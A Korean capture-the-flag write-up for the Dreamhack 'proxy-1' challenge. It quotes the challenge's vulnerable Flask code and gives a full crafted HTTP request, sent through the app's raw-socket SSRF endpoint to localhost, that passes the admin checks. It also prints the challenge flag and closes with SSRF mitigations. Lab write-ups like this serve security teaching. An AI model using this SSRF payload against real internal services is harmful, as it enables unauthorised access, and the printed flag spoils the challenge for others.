


# [Dreamhack] Proxy-1 - Web Hacking

## 1. 문제 개요

* **문제 링크:** [Dreamhack - proxy-1](https://dreamhack.io/wargame/challenges/13)

* **분야:** Web

* **목표:** 서버 내부에서 발생하는 SSRF 취약점을 이용하여 로컬호스트(`127.0.0.1`)에서만 접근 가능한 `/admin` 엔드포인트의 검증 로직을 우회하고 플래그 탈취.

## 2. 취약점 분석
제공된 `app.py` 코드를 분석한 결과, `/socket` 엔드포인트에서 사용자가 입력한 `host`, `port`, `data` 값을 기반으로 서버가 직접 Raw Socket 통신을 수행하는 취약점(SSRF)을 확인.

```python
@app.route('/socket', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('socket.html')
    elif request.method == 'POST':
        host = request.form.get('host')
        port = request.form.get('port', type=int)
        data = request.form.get('data')

        retData = ""
        try:
            # [!] 취약점 발생: 사용자가 입력한 host, port로 data를 인코딩하여 직접 전송(SSRF)
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(3)
                s.connect((host, port))
                s.sendall(data.encode())
                while True:
                    tmpData = s.recv(1024)
                    retData += tmpData.decode()
                    if not tmpData: break
        except Exception as e:
            return render_template('socket_result.html', data=e)
            
        return render_template('socket_result.html', data=retData)

@app.route('/admin', methods=['POST'])
def admin():
    # 관리자 접근을 위한 5가지 검증 로직 (내부 IP 및 특정 헤더/쿠키 확인)
    if request.remote_addr != '127.0.0.1':
        return 'Only localhost'
    
    if request.headers.get('User-Agent') != 'Admin Browser':
        return 'Only Admin Browser'
    
    if request.headers.get('DreamhackUser') != 'admin':
        return 'Only Admin'
    
    if request.cookies.get('admin') != 'true':
        return 'Admin Cookie'
    
    if request.form.get('userid') != 'admin':
        return 'Admin id'
        
    return FLAG

app.run(host='0.0.0.0', port=8000)
```

* **분석 결론:** `/admin` 페이지는 오직 서버 로컬(`127.0.0.1`)에서만 접근이 가능하며, 특정 HTTP 헤더와 쿠키, Form Data를 요구함. 외부에서는 접근이 불가능하므로, `/socket` 기능(SSRF)을 이용해 서버가 자기 자신(`127.0.0.1:8000`)에게 조건에 맞는 패킷을 쏘도록 유도해야 함.

## 3. 공격 수행
`/admin` 엔드포인트의 5가지 검증 로직을 우회하기 위해, `/socket` 기능(SSRF)을 이용하여 서버 로컬호스트(`127.0.0.1:8000`)로 직접 조작된 HTTP POST 패킷을 전송.



1. **SSRF 타겟 설정 (`host`, `port`):**

   * `host`: `127.0.0.1`, `port`: `8000`으로 설정하여 첫 번째 관문인 `request.remote_addr` 검증 우회.

2. **패킷 조작 (`data`):**

   * **헤더(Header):** `User-Agent`, `DreamhackUser`, `Cookie` 값을 소스 코드의 조건과 일치하도록 삽입.

   * **바디(Body):** Form 데이터를 전송하기 위해 `Content-Type`을 `application/x-www-form-urlencoded`로 지정하고, 한 줄의 공백(CRLF)을 둔 뒤 바디에 `userid=admin`을 작성.

**[작성된 data 페이로드 원문]**
```http
POST /admin HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Admin Browser
DreamhackUser: admin
Cookie: admin=true
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=admin
```



* 웹 페이지의 `/socket` 패킷을 Burp Suite Repeater 기능으로 가로챈 뒤 공격 수행.

* HTTP 패킷 원문 내의 공백이나 개행문자(`\r\n`)가 깨지지 않고 안전하게 서버로 전달되도록, `data` 파라미터 값 전체를 `Ctrl + U`를 통해 **URL 인코딩**하여 전송.

## 4. 획득 결과
서버가 스스로 `/admin` 엔드포인트에 접근하여 모든 검증을 통과하였고, 반환된 응답(Socket Result)에서 플래그를 성공적으로 획득함.

* **FLAG:** `DH{9bb7177b6267ff7288e24e06d8dd6df5}`

## 5. 대응 방안
사용자의 입력을 받아 서버 내부에서 외부 리소스나 내부 네트워크로 요청을 보내는 기능(SSRF 취약점 발생 가능 영역)을 구현할 때는 철저한 검증이 필요함.

* **입력값 검증:** 허용된 도메인이나 IP 목록(Whitelist)을 정의하고, 사용자의 입력값이 해당 목록에 포함되는지 확인.

* **내부 IP 접근 차단:** `127.0.0.1`, `localhost`, `10.x.x.x`, `192.168.x.x` 등 내부 통신망이나 사설 IP 대역으로의 요청을 코드 레벨에서 명시적으로 차단 조치.